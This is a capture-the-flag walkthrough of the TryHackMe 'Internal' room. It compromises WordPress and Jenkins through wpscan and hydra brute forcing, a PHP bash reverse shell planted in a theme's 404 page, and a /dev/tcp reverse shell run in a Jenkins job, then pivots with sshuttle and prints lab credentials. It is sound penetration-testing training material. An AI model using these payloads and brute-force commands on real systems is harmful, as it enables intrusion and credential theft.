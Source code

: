 # Internal

**Room Link:** [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

<pre><code><strong>nmap -p- 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (48) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

```
gobuster dir -u http://10.10.46.54 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```

<figure><img src="../../.gitbook/assets/image (46) (1).png" alt=""><figcaption></figcaption></figure>

Wordpress is running under both /blog and /wordpress. /blog has a login page

```
wpscan --url http://10.10.46.54
wpscan --url http://10.10.46.54/blog --passwords /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (30) (2) (1).png" alt=""><figcaption></figcaption></figure>

#### Credentials found

<pre><code><strong>Username: admin 
</strong><strong>Password: my2boys
</strong></code></pre>

Trying to login the page redirects to internal.htm so I add that to the host file.

```
vi /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>

We are able to successfully get into wordpress with the credentials

<figure><img src="../../.gitbook/assets/image (8) (1) (3).png" alt=""><figcaption></figcaption></figure>

Reverse Shell Failed Attempt

revshell.php code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.120.18/443 0>&1'");
?>
```

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Unable to upload the plugin due to write issues

<figure><img src="../../.gitbook/assets/image (14) (4) (1).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

TWENTY SEVENTEEN theme had a writable pages so I modified the 404 page with a reverse shell and then navigated to a page that does not exist.

<figure><img src="../../.gitbook/assets/image (44) (1) (1).png" alt=""><figcaption></figcaption></figure>

Just added the revshell.php code mentioned earlier.

<figure><img src="../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 443
```

**Browser**

A page that doesn't exist to trigger the reverse shell.

```
http://www.internal.thm/blog/index.php/2020/08/03/hello-worlgd/
```

<figure><img src="../../.gitbook/assets/image (27) (1) (2).png" alt=""><figcaption></figcaption></figure>

Get full TTY shell

<pre><code><strong>python -c 'import pty; pty.spawn("/bin/bash")'
</strong>ctrl + Z
stty raw -echo;fg
</code></pre>

### LinPeas

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://10.10.120.18:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

Linpeas was able to find two sets of credentials. phpmyadmin credentials worked.

```
phpmyadmin
Username: phpmyadmin                                                                                                                
Password: B2Ud4fEOZmVq

note 
Username: aubreanna
Password: bubb13guM!@#123
```

The note for Bill

```
cat /opt/wp-save.txt 
```

<figure><img src="../../.gitbook/assets/image (47) (1).png" alt=""><figcaption></figcaption></figure>

Able to ssh in with the credentials. There is a file that says that Jenkins is running and we can confirm that is is running with netstat as well.

```
ssh aubreanna@10.10.46.54
Password: bubb13guM!@#123
cat jenkins.txt
netstat -tuan
```

<figure><img src="../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Pivot

From Kali I am now able to reach the Jenkins server

**Option #1**

For the rest of guide I used this option.

```
apt install sshuttle
sshuttle -r aubreanna@10.10.46.54 127.0.0.1/24
Password: bubb13guM!@#123
```

<figure><img src="../../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

**Option #2**

If I followed this way jenkins would be redirected to port 4444 on kali.

```
ssh -L 4444:172.17.0.2:8080 aubreanna@10.10.46.54
Password: bubb13guM!@#123
```

### Bruteforce

After checking for some time I couldn't find any files with credentials that worked and the jenkins server is being ran on docker and I had no access to anything for that  so I resorted to using hydra. What I did was tried logging in with fake credentials than seeing the request and copying the info I needed to start bruteforcing.

```
File: /j_acegi_security_check
Request Body: j_username=test&j_password=pass&from=%2F&Submit=Sign+in
Failed login message: Invalid username or password
```

<figure><img src="../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption></figcaption></figure>

The default hydra was giving false positives and not getting the correct credentials so I downloaded from gitlab and ran the bruteforcing again.

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P  /usr/share/wordlists/rockyou.txt
```

Credentials were found.

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
Username: admin
Password: spongebob
```

### Jenkins Web

<figure><img src="../../.gitbook/assets/image (33) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (4).png" alt=""><figcaption></figcaption></figure>

Just added a reverse shell to the job and ran it.

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.120.18/443 0>&1'
```

<figure><img src="../../.gitbook/assets/image (36) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

Setup a listener

```
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (12) (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

There was a note under opt for Aubreanna that had the credentials for root.

<figure><img src="../../.gitbook/assets/image (15) (3) (1).png" alt=""><figcaption></figcaption></figure>

```
Username: root
Password: tr0ub13guM!@#123
```

Tried logging in with the credentials with ssh and it worked.

<pre><code>ssh root@10.10.56.152
<strong>Password: tr0ub13guM!@#123
</strong></code></pre>


